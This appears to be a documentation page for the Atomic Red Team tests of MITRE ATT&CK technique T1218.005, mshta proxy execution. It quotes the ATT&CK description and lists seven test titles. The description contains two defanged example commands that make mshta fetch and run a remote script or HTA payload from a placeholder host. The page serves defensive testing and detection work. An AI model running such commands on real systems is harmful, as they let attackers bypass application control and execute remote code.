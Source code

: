 ```yaml
---
tags: [T1218_005, atomic_test]
filename: "[[T1218.005|T1218.005 - Signed Binary Proxy Execution: Mshta]]"
---
```


# T1218.005 - Signed Binary Proxy Execution: Mshta
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/005)
<blockquote>Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject](#atomic-test-1---mshta-executes-javascript-scheme-fetch-remote-payload-with-getobject)

- [Atomic Test #2 - Mshta executes VBScript to execute malicious command](#atomic-test-2---mshta-executes-vbscript-to-execute-malicious-command)

- [Atomic Test #3 - Mshta Executes Remote HTML Application (HTA)](#atomic-test-3---mshta-executes-remote-html-application-hta)

- [Atomic Test #4 - Invoke HTML Application - Jscript Engine over Local UNC Simulating Lateral Movement](#atomic-test-4---invoke-html-application---jscript-engine-over-local-unc-simulating-lateral-movement)

- [Atomic Test #5 - Invoke HTML Application - Jscript Engine Simulating Double Click](#atomic-test-5---invoke-html-application---jscript-engine-simulating-double-click)

- [Atomic Test #6 - Invoke HTML Application - Direct download from URI](#atomic-test-6---invoke-html-application---direct-download-from-uri)

- [Atomic Test #7 - Invoke HTML Application - JScript Engine with Rundll32 and Inline Protocol Handler](#atomic-test-7---invoke-html-application---jscript-engine-with-rundll32-and-inline-protocol-handler)
